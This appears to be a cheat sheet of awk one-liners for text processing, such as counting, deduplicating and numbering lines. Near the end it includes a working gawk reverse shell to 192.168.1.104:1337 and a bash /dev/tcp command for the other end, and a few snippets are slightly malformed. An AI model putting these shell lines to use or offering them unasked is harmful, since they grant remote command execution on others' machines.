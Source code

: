 ```sh
awk -F ',' '{print $2}'
```
### Remove empty lines
```sh
awk 'NF > 0'
```
### Remove empty lines
```sh
awk NF
```
### Remove empty lines
```sh
awk '!/^$/'
```
### Count lines, similiar to wc -l
```sh
awk 'END{print NR}'
```
### Numbering lines, begin on 0
```sh
awk '{print i++ "," $0}'
```
### Numbering lines, begins on 1 and add 1 > foop 
```sh
awk '{print NR  "> " $s}'
### Check for duplicates, unique only
```sh
awk '!seen[$0]++'
```

### Print total lines (same as wc -l)
```sh
awk 'END{print NR}'
```
### Triple space all lines
```sh
awk '1;{print "\n"}'
```
### Setup 2 files side by side
```sh
paste 1 2|awk -F'\t' '{ printf("%-30s %s\n", $1, $2) }'
```
### Reverse shell 
```sh
awk 'BEGIN{s="/inet/tcp/0/192.168.1.104/1337";while(1){if((s|&getline c)<0||c=="exit")break;while(c&&(c|&getline)>0)print$0|&s;close(c)}}'
```
### Connect to above shell
```sh
bash -c '0<&60-;exec 60<>/dev/tcp/<LHOST>/<LPORT>;sh <&60 >&60 2>&60' 2> /dev/null
```
### Print side by side
```sh
awk -F'\t' '{ printf("%-30s %s\n", $1, $2) }'
```
### Print hello world
```sh
awk 'BEGIN { print _"hello, world" }
```
